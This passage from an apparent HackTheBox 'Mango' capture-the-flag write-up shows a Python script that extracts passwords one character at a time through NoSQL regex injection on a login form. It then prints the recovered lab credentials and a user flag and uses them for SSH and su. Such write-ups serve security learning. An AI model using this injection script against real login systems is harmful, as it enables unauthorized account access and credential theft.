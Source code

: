 ```
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload={"username": username, "password[$regex]": "^" + (password+c) }
            r = requests.post(u, data = payload, headers = headers, verify=False, allow_redirects = False)
            print(r, payload, end="\r", flush=True)
            if 'OK' in r.text or r.status_code == 302:
                print()
                print("Found one more char : %s" % (password+c))
                password += c
```
Running the script gives us the passwords! At this point we can keep getting $\'s, so we can stop the script and remove them.

```
Found one more char : h3mXK8RhU~f{]f5
Found one more char : h3mXK8RhU~f{]f5H
Found one more char : h3mXK8RhU~f{]f5H$
Found one more char : h3mXK8RhU~f{]f5H$$
Found one more char : h3mXK8RhU~f{]f5H$$$
Found one more char : h3mXK8RhU~f{]f5H$$$$
```
![The password.](/images/HackTheBox/Mango/20.JPG)

We have 2 passwords now: `admin:t9KcS3>!0B#2` and `mango:h3mXK8RhU~f{]f5H`.

When we log onto the site with the correct password, we immediately get the **under construction** page. We therefore know that the previous NoSQL injection attempts would actually log us into the website, but theres really nothing to log into.

## Logging onto the box.
With the creds we got, we can SSH onto the box with the mango account.
![SSH'ing in.](/images/HackTheBox/Mango/21.JPG)

<hr>

## User Flag

<hr>

 After looking around the box, we can home in on the user flag. We can `su admin`, and log into the admin account with the other cred we found.
![User flag](/images/HackTheBox/Mango/USER.JPG)

And there you have it. The user flag: `79bf31c6c6eb38a8567832f7f8b47e92`.
<hr>

## PrivEsc

<hr>
